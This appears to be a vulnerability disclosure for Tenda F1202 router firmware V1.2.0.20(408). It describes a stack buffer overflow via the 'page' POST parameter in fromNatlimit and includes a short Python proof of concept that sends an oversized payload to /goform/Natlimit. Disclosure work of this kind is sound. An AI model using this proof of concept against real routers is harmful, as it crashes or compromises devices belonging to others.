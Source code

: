 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2671.html

## Affected version

F1202 V1.2.0.20(408)

## Vulnerability details

The Tenda F1202 V1.2.0.20(408) firmware has a stack overflow vulnerability located in the `fromNatlimit` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v4, "lan_controllist.asp?page=%s", v);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v4` array, thus triggering this security vulnerability.

![image-20240409101305696](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409101305696.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/Natlimit"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409100557300](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409100557300.png)